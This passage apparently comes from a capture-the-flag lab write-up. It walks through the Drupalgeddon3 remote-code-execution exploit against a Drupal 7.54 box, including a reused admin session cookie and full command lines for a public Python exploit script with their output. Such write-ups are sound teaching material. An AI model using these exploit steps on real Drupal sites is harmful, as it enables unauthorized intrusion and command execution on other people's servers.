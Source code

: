     PS C:\inetpub\drupal-7.54>whoami
    nt authority\iusr
    

### Drupalgeddon3

#### Enumeration

I’ll check out the details of Drupalgeddon3 using `searchsploit -x
exploits/php/webapps/44542.txt`. Reading that, it says “You must be
authenticated and with the power of deleting a node.” So it would not be an
option taking this box from scratch. That said, I have access to the cookie
for the admin thanks to the first exploit I ran, so I’ll give this a run using
that.

First I’ll show that I can log in. I’ll use the Firefox plugin “Cookie
Manager” to add a cookie
“SESSd873f26fc11f2b7e6e4aa0f6fce59913=GCGJfJI7t9GIIV7M7NLK8ARzeURzu83jxeqI2_qcDGs”.
On refreshing, I see I’m now logged in as admin:

![1551978371907](https://0xdfimages.gitlab.io/img/1551978371907.png)

I also will want to get the node id of an existing node. If I click on “Find
Content”, I can get a list of current content:

![1551979251624](https://0xdfimages.gitlab.io/img/1551979251624.png)

![1551979276991](https://0xdfimages.gitlab.io/img/1551979276991.png)

Clicking on the “REST” link takes me to `http://10.10.10.9/node/1`, so I’ll
take it that node 1 exists.

#### Exploit

There’s a [python script](https://raw.githubusercontent.com/oways/SA-
CORE-2018-004/master/drupalgeddon3.py) to execute the attack for me. I’ll grab
a copy and run it to see it requires the url, the session cookie, an existing
node, and the command:

    
    
    root@kali# python drupalgeddon3.py 
    
    [Usage]
    python drupalgeddon3.py [URL] [Session] [Exist Node number] [Command]
    
    [Example]
    python drupalgeddon3.py http://target/drupal/ "SESS60c14852e77ed5de0e0f5e31d2b5f775=htbNioUD1Xt06yhexZh_FhL-h0k_BHWMVhvS6D7_DO0" 6 "uname -a"
    

Using the cookie info from the first exploit and the node I found earlier, I
can now get RCE:

    
    
    root@kali# python drupalgeddon3.py http://10.10.10.9/ "SESSd873f26fc11f2b7e6e4aa0f6fce59913=GCGJfJI7t9GIIV7M7NLK8ARzeURzu83jxeqI2_qcDGs" 1 "whoami"
    nt authority\iusr
    
